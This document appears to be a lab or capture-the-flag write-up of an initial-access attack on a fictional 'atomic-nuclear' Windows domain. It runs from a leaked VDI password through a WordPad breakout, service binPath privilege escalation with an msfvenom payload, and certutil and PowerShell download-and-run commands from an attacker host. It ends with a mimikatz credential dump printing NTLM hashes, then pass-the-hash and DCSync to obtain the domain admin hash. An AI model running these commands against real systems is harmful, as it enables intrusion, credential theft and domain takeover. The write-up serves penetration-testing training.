

# Initial Access

- [Initial Access](#initial-access)
  - [Recon Recap](#recon-recap)
  - ["Escaping" VDI](#escaping-vdi)
  - [Local Enumeration - VDI Server](#local-enumeration---vdi-server)
  - [Local Privilege Escalation](#local-privilege-escalation)
  - [Credential Dump](#credential-dump)
  - [Domain Enumeration](#domain-enumeration)

----

## Recon Recap

From OSINT, we know the target is using VDI:

[1]<br/>

VDI Password revealed

Browsing <http://atomic-nuclear.s3.amazonaws.com/secret.txt>:
```
Atomic Nuclear PowerPlant Site Configuration : atomic-nuclear.site

Remote VDI Password:  Sc!ent!st@1221  


Note: This File Contains Sensitive Information. 
```

<br/>

Also, from subdomain enumeration, we know:

```
atomic-nuclear.site
www.atomic-nuclear.site
git.atomic-nuclear.site
mail.atomic-nuclear.site
rds.atomic-nuclear.site
secretserver.atomic-nuclear.site
vdi.atomic-nuclear.site
```

<br/>

Browse `vdi.atomic-nuclear.site`:

  


* It is infact an IIS page.

<br/>

Goolging for IIS and VDI, we know if VDI & RDP are enabled, the uri will be `/rdweb`. (Ref: https://social.technet.microsoft.com/Forums/lync/en-US/3ddf94f7-f447-493f-88d5-7b915e61d7cc/rds-vdi-gateway-server-and-url-query?forum=winserverTS)

<br/>

Browse `https://vdi.atomic-nuclear.site/rdweb`:


To access, we need:

1. Domain - `atomic.site` / `nuclear.site` / `scada.local` from SSL cert
2. Username - `homi` / `iyer` from LinkedIn
3. Password - `Sc!ent!st@1221` revealed in the secret note

<br/>

Logon successfully using `nuclear\iyer` with password `Sc!ent!st@1221`:

  

<br/>

Try to run the RDP file using `xfreerdp`:

```
xfreerdp cpub-WordPad-QuickSessionCollection-CmsRdsh.rdp
```

  

<br/>

Try to use `nslookup` to check the IP address of `vdi.atomic-nuclear.site`:

  

* 192.168.8.2

<br/>

Inspecting the RDP file, the dest is `vdi-server.nuclear.site`:

  

<br/>

Add this record into `/etc/hosts`:

```
192.168.8.2 vdi-server.nuclear.site
```

  
 

<br/>

Then try to RDP to the host again:

```
xfreerdp cpub-WordPad-QuickSessionCollection-CmsRdsh.rdp
```

  

<br/>

Again use `nuclear\iyer` with password `Sc!ent!st@1221` with prompted. After connecting, a wordpad is shown:

  

<br/>

## "Escaping" VDI

With reference to https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/, we can "escape" by using `Save As -> Type cmd.exe on top and enter`:

  

* As shown, we get a cmd prompt.

<br/>

## Local Enumeration - VDI Server

Check the network info:

```
ifconfig
```

  

* `192.168.8.2`
* `10.1.1.8`

<br/>

Check local user and admin:

```
net user && net localgroup administrators
```

  

* `Nuclear\vdadmin` is the local admin

<br/>

Serve `winPEAS.exe` using python3 http.server on the attacker machine:

```
python3 -m http.server 80
```

  

<br/>

On the VDI CMD, use `certutil` to download `winPEAS.exe`:

```
cd C:\Users\Public
certutil -urlcache -f http://192.168.100.11/winPEAS.exe .\winPEAS.exe
```

  

<br/>

First run:

```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

<br/>

Relaunch the cmd and run:
```
cd C:\Users\Public\ && .\winPEAS.exe
```

  

* We have full access to a service `SNMPTRAP`

<br/>

## Local Privilege Escalation

We can escalate our privilege by modifying the `BINPATH`, pointing it to a crafted payload which adds `nuclear\iyer` as local admin.

<br/>

To generate the payload, on the attacker machine, use `msfvenom` to generate an exe:

```
msfvenom -f exe -p windows/exec CMD="net localgroup administrators nuclear\iyer /add" > snmptrap.exe

python3 -m http.server 80
```

  

<br/>

On the VDI CMD, download the crafted payload:

```
cd C:\Users\Public && certutil -urlcache -f http://192.168.100.11/snmptrap.exe .\snmptrap.exe
```

  

<br/>

Then modify the `snmptrap` service `binpath`:

```
sc qc snmptrap && sc config snmptrap binPath= C:\Users\Public\snmptrap.exe && sc qc snmptrap
```

  

<br/>

Restart the service and inspect the local admin group:

```
sc stop snmptrap
net localgroup administrators
sc start snmptrap
net localgroup administrators
```

  

  

<br/>

To make our permission effective, use `logoff` command to log out and log in and get a CMD again.

```
whoami /priv
```

  


<br/>

## Credential Dump

Download `mimikatz` on the VDI machine:

```
certutil -urlcache -f http://192.168.100.11/mimikatz.exe .\mimikatz.exe
```

  


<br/>

Then dump passwords:

```
.\mimikatz.exe
```

```
privilege::debug
sekurlsa::logonpasswords
```

Result:
```
C:\Users\Public>.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 1/19/2021 11:31:12 AM
SID               : S-1-5-17
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 100995 (00000000:00018a83)
Session           : Service from 0
User Name         : vdadmin
Domain            : NUCLEAR
Logon Server      : NUCLEAR-DC
Logon Time        : 1/19/2021 11:31:12 AM
SID               : S-1-5-21-2753455963-2528838614-3718188604-1103
        msv :
         [00000003] Primary
         * Username : vdadmin
         * Domain   : NUCLEAR
         * NTLM     : 1fbba53e43f63e4b29fb31376bd33fda
         * SHA1     : 1ffa5bf359e7e54b5c231eba5a4fa94cef315e99
         * DPAPI    : 2e24b29abdefaff8329427c102e7fad5
        tspkg :
        wdigest :
         * Username : vdadmin
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : vdadmin
         * Domain   : NUCLEAR.SITE
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : VDI-SERVER$
Domain            : NUCLEAR
Logon Server      : (null)
Logon Time        : 1/19/2021 11:31:10 AM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : vdi-server$
         * Domain   : NUCLEAR.SITE
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 3258841 (00000000:0031b9d9)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/19/2021 9:48:20 PM
SID               : S-1-5-90-0-3
        msv :
         [00000003] Primary
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * NTLM     : d66874caee4c5def429e68e396539771
         * SHA1     : c332b7ee20fe397224ca6b5ce545f34340d86df5
        tspkg :
        wdigest :
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : VDI-SERVER$
         * Domain   : nuclear.site
         * Password : 9;/14$UF<o$iVAv!2IcUhu.uAQ1\`[kY)XnY\WYe3b"!d8!p9+a>93S#zdLC.j@k@s/!2>hnV)nf:*b:C'2KD'0)@uxp)E@^VJn[&9ky0C*A=Xx>h<1;E7$j
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 1/19/2021 11:31:11 AM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 2542070 (00000000:0026c9f6)
Session           : Service from 0
User Name         : RDWebAccess
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 1/19/2021 8:42:36 PM
SID               : S-1-5-82-604604840-3341247844-1790606609-4006251754-2470522317
        msv :
         [00000003] Primary
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * NTLM     : d66874caee4c5def429e68e396539771
         * SHA1     : c332b7ee20fe397224ca6b5ce545f34340d86df5
        tspkg :
        wdigest :
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR.SITE
         * Password : (null)
        ssp :
         [00000000]
         * Username : VDI-SERVER$
         * Domain   : (null)
         * Password : (null)
        credman :

Authentication Id : 0 ; 3264007 (00000000:0031ce07)
Session           : RemoteInteractive from 3
User Name         : iyer
Domain            : NUCLEAR
Logon Server      : NUCLEAR-DC
Logon Time        : 1/19/2021 9:48:20 PM
SID               : S-1-5-21-2753455963-2528838614-3718188604-1105
        msv :
         [00000003] Primary
         * Username : iyer
         * Domain   : NUCLEAR
         * NTLM     : 1ed88c67da13a44c5d81879baf879d74
         * SHA1     : b493e08d2567cdbb0b1d73b63d5d8e6cdd685361
         * DPAPI    : d531e51d448139e9595aa58a7b5445d4
        tspkg :
        wdigest :
         * Username : iyer
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : iyer
         * Domain   : NUCLEAR.SITE
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 3226382 (00000000:00313b0e)
Session           : RemoteInteractive from 2
User Name         : iyer
Domain            : NUCLEAR
Logon Server      : NUCLEAR-DC
Logon Time        : 1/19/2021 9:46:54 PM
SID               : S-1-5-21-2753455963-2528838614-3718188604-1105
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 2537592 (00000000:0026b878)
Session           : Service from 0
User Name         : DefaultAppPool
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 1/19/2021 8:41:47 PM
SID               : S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
        msv :
         [00000003] Primary
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * NTLM     : d66874caee4c5def429e68e396539771
         * SHA1     : c332b7ee20fe397224ca6b5ce545f34340d86df5
        tspkg :
        wdigest :
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : VDI-SERVER$
         * Domain   : nuclear.site
         * Password : 9;/14$UF<o$iVAv!2IcUhu.uAQ1\`[kY)XnY\WYe3b"!d8!p9+a>93S#zdLC.j@k@s/!2>hnV)nf:*b:C'2KD'0)@uxp)E@^VJn[&9ky0C*A=Xx>h<1;E7$j
        ssp :
        credman :

Authentication Id : 0 ; 111235 (00000000:0001b283)
Session           : Service from 0
User Name         : MSSQL$MICROSOFT##WID
Domain            : NT SERVICE
Logon Server      : (null)
Logon Time        : 1/19/2021 11:31:12 AM
SID               : S-1-5-80-1184457765-4068085190-3456807688-2200952327-3769537534
        msv :
         [00000003] Primary
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * NTLM     : d66874caee4c5def429e68e396539771
         * SHA1     : c332b7ee20fe397224ca6b5ce545f34340d86df5
        tspkg :
        wdigest :
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : VDI-SERVER$
         * Domain   : nuclear.site
         * Password : 9;/14$UF<o$iVAv!2IcUhu.uAQ1\`[kY)XnY\WYe3b"!d8!p9+a>93S#zdLC.j@k@s/!2>hnV)nf:*b:C'2KD'0)@uxp)E@^VJn[&9ky0C*A=Xx>h<1;E7$j
        ssp :
        credman :

Authentication Id : 0 ; 63096 (00000000:0000f678)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/19/2021 11:31:11 AM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * NTLM     : d66874caee4c5def429e68e396539771
         * SHA1     : c332b7ee20fe397224ca6b5ce545f34340d86df5
        tspkg :
        wdigest :
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : VDI-SERVER$
         * Domain   : nuclear.site
         * Password : 9;/14$UF<o$iVAv!2IcUhu.uAQ1\`[kY)XnY\WYe3b"!d8!p9+a>93S#zdLC.j@k@s/!2>hnV)nf:*b:C'2KD'0)@uxp)E@^VJn[&9ky0C*A=Xx>h<1;E7$j
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : VDI-SERVER$
Domain            : NUCLEAR
Logon Server      : (null)
Logon Time        : 1/19/2021 11:31:11 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * NTLM     : d66874caee4c5def429e68e396539771
         * SHA1     : c332b7ee20fe397224ca6b5ce545f34340d86df5
        tspkg :
        wdigest :
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : vdi-server$
         * Domain   : NUCLEAR.SITE
         * Password : (null)
        ssp :
         [00000000]
         * Username : VDI-SERVER$
         * Domain   : (null)
         * Password : (null)
         [00000001]
         * Username : VDI-SERVER
         * Domain   : (null)
         * Password : (null)
        credman :

Authentication Id : 0 ; 34207 (00000000:0000859f)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 1/19/2021 11:31:10 AM
SID               :
        msv :
         [00000003] Primary
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * NTLM     : d66874caee4c5def429e68e396539771
         * SHA1     : c332b7ee20fe397224ca6b5ce545f34340d86df5
        tspkg :
        wdigest :
        kerberos :
        ssp :
         [00000000]
         * Username : VDI-SERVER$
         * Domain   : (null)
         * Password : (null)
        credman :

```

## Domain Enumeration

Use `PowerView.ps1` to enumerate the domain.

```
powershell -ep bypass
```

```
iex ((New-Object Net.WebClient).DownloadString("http://192.168.100.11/PowerView_dev.ps1"))
```

<br/>

Then check interesting ACLs:

```
Invoke-ACLScanner -ResolveGUIDs
```

  

  

- The user `vdadmin` has extended right to:
    - `DS-Replication-Get-Changes-In-Filtered-Set`
    - `DS-Replication-Get-Changes`
    - `DS-Replication-Get-Changes-All`
- These 3 permissions are the requirements of doing DCSync

<br/>

Note in the credential dump, we get the NTLM of `vdadmin`:
- `1fbba53e43f63e4b29fb31376bd33fda`

In this case, we may use the over-pass-the-hash technique to perform a DCSync.

<br/>

```
.\mimikatz.exe
```

```
sekurlsa::pth /domain:nuclear.site /user:vdadmin /ntlm:1fbba53e43f63e4b29fb31376bd33fda /run:cmd.exe
```

On the new prompt, run mimikatz again:

```
.\mimikatz.exe
```

```
privilege::debug
```

```
lsadump::dcsync /user:nuclear\administrator
```

  

<br/>

* Domain Admin `administrator` NTLM: `4fc382c2e14308faef3de7494a08f27a`

<br/>

